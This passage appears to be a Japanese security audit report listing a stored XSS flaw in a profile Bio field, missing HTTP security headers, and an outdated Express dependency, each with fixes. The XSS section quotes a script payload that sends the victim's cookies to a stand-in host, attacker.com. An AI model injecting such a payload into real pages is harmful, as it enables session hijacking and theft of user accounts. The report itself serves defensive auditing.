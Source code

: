 
### [High] XSS（Stored Cross-Site Scripting）（CVSSスコア: 7.2）

**場所**: `/profile`ページのBio表示

**脆弱性詳細**:
ユーザーのBio（自己紹介）がサニタイズされずにHTMLに埋め込まれている。

**攻撃シナリオ**:
```javascript
// 攻撃者がBioに以下を設定
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

**修正方法**:
```javascript
// 修正前
document.getElementById('bio').innerHTML = userBio;

// 修正後
import DOMPurify from 'dompurify';
document.getElementById('bio').innerHTML = DOMPurify.sanitize(userBio);
```

**優先度**: 🟠 高（1週間以内に修正）

---

## セキュリティ設定の改善（Medium）

### [Medium] セキュリティヘッダー不足

**推奨設定**:
```nginx
# nginx設定
add_header X-Frame-Options "DENY";
add_header X-Content-Type-Options "nosniff";
add_header X-XSS-Protection "1; mode=block";
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
add_header Content-Security-Policy "default-src 'self'";
```

---

## 依存関係の脆弱性

### [High] Express 4.16.0（CVE-2022-24999）

**影響**: DoS攻撃の可能性

**対策**:
```bash
npm update express@latest
```

---